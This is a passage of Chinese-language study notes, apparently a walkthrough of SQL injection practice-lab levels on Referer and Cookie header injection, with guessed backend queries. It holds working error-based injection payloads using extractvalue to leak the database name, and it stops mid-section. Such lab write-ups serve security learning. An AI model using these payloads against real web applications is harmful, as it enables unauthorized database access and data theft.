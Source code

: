 猜测后端sql语句：

```
select * from users where username='前端传回数据' and password='前端传回数据' limit 0,1;

insert into uagents(uagent,ip_address,username) values('UA数据','ip数据','用户名')
```





#### 19.	refer注入

此题和18题基本类似，只是说18题是记录：`User-Agent`。而此题是记录`referer`，所以直接从`referer`中注入就好了

> 此处insert into 的字段只有两条。别问我怎么知道的，问就是探测。



在请求头中的`referer`中：

payload:

```
' or extractvalue(1,concat(0x7e,(select database()))),'321')#
```





猜测后端sql语句：

```
insert into referers(referer,ip_address) values('获取到的referer','获取到的ip');
```





#### 20.	cookie注入

> 此题为一道`cookie`注入的题。

注意：因为此题为一道cookie注入的题，而cookie是服务端返回前端的，所以登录用户后有一个重定向，所以抓包的时候注意一下。(ps.在重定向中才有cookie)



​	感觉像是重定向后，服务端从cookie中取：uname字段的值。然后进行select查询,查询用户名和密码。所以此处就有一个报错注入。







payload:

> cookie:中

```
uname=Dumb' or extractvalue(1,concat(0x7e,(select database()))) #
```





猜测后端sql语句：
